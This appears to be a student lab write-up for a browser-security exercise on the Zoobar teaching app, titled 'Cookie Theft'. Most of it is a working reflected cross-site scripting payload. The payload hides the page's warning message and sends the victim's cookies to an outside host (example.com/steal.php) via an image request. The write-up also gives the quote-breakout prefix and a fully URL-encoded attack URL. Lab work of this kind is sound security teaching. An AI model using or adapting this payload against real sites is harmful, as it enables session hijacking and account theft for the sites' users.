 ##Browser security

###Exercise 1: Cookie Theft

The payload for the exercise consists from several parts:

    <script>
    document.addEventListener("DOMContentLoaded", theDomHasLoaded, false); //Wait that DOM has loaded in the page so we modify the warning text message class
    function theDomHasLoaded(e) { 
    document.getElementsByClassName("warning")[0].style.visibility = 'hidden'; // this hides the red warning message from the page
    } 
    new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie); //this is the payload to steal the victims cookie
    </script>

Finally we URL encode the whole payload and include it as part of the URL. The payload also requires that we include ""> and </ in the beginning and the end so that the exploit works properly.

    ""><script>document.addEventListener("DOMContentLoaded", theDomHasLoaded, false);function theDomHasLoaded(e) { document.getElementsByClassName("warning")[0].style.visibility = 'hidden';} new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie);</script></
    
localhost:8080/zoobar/index.cgi/users?user=admin%22%22%3e%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%61%64%64%45%76%65%6e%74%4c%69%73%74%65%6e%65%72%28%22%44%4f%4d%43%6f%6e%74%65%6e%74%4c%6f%61%64%65%64%22%2c%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%2c%20%66%61%6c%73%65%29%3b%66%75%6e%63%74%69%6f%6e%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%28%65%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%77%61%72%6e%69%6e%67%22%29%5b%30%5d%2e%73%74%79%6c%65%2e%76%69%73%69%62%69%6c%69%74%79%20%3d%20%27%68%69%64%64%65%6e%27%3b%7d%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%3a%2f%2f%65%78%61%6d%70%6c%65%2e%63%6f%6d%2f%73%74%65%61%6c%2e%70%68%70%3f%63%6f%6f%6b%69%65%73%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e%3c%2f

